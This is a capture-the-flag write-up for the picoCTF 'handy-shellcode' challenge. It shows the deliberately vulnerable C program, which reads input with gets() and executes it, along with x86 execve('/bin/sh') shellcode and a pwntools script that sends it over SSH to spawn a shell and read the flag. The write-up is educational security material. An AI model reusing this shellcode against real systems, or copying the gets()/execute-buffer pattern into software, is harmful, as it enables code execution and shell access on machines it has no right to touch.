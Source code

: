 # handy-shellcode - Points: 50

## description

This [program](./vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af on the shell server. [Source](./vuln.c).

## solution

We're given a binary as well as the source code for this challenge.
The source code is shown below:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");

  return 0;
}
```

We can see that the ```vuln()``` function stores user input using ```gets(buf)``` and that memory at the address of ```buf``` is executed as a function here:

```
((void (*)())buf)();
```

As the name of the challenge suggests, we need to input shell code that will allow us to read the flag file.
This can be done by calling ```/bin/sh``` and sending commands through ```stdin```.

To do this, I used shellcode from http://shell-storm.org/shellcode/ for Linux/Intel x86.
The code I chose was execve("/bin/sh") by Magnefikko, which can be found here: http://shell-storm.org/shellcode/files/shellcode-585.php

```
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

## exploit script

I used pwntools to connect to the shell server, start the process, and send the shellcode and commands to read the flag.
I then switched to interactive mode to receive the flag and allow me to input any other commands, though permissions were restricted to reading this flag only.

```
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af'

print("running vuln")
vuln = conn.process(location + '/vuln')

print("sending payload")
vuln.sendlineafter('shellcode', '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')
vuln.sendlineafter('$', 'cd ' + location)
vuln.sendlineafter('$', 'cat ' + location + '/flag.txt')

print("done")
vuln.interactive()
```

Flag: ```picoCTF{h4ndY_d4ndY_sh311c0d3_5843b402}```

